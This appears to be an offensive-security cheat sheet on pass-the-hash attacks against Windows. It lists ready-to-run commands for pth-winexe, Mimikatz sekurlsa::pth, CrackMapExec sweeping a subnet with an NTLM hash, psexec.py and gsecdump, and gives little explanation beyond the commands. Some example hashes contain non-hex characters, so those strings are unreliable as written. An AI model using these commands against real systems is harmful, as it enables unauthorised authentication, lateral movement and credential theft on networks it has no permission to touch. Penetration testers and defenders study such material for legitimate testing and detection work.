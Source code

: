 ```yaml
---
description: >-
  Pass the hash is a hacking technique that allows an attacker to authenticate
  to a remote server or service by using the underlying NTLM or LanMan hash of a
  user's password.
---
```


# Pass-The-Hash

It replaces the need for stealing the plaintext password with merely stealing the hash and using that to authenticate with.

## pth-winexec

Part of the pth-toolkit \([https://github.com/byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)\), buildin in kali

Example:

```text
pth-winexe --user=pc.local/Administrator%aad3b435b51404eeaad3b435b514t234e:1321ae011e02ab0k26e4edc5012deac8 //10.1.1.1 cmd
```

## Mimikatz

Pass-the-hash using mimikatz:

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"`

After running this command a new cmd shell will be opened with the new logon session \(can be seen by running `klist`\), we can interact with the new shell by running:

`Invoke-Command -ComputerName dc.eth.lab -ScriptBlock{whoami}`

It replaces the need for stealing the plaintext password with merely stealing the hash and using that to authenticate with.

## Crackmapexec

`cme smb 192.168.0.1/24 -u Admin -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949`

## psexec

part of Microsoft’s Sysinternals tools for windows or a standalone script in kali

`psexec.py active.htb/administrator@10.10.10.100`

## gsecdump

Gsecdump has no DLL dependency making it very easy to use on remote systems with psexec. If it for some reason can't do what it is supposed to, try running it as SYSTEM and you should get your info. 

Example: 

`C:\Documents and Settings\nobody\Desktop>gsecdump -u MSHOME\XPSP1VM$::aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::` 



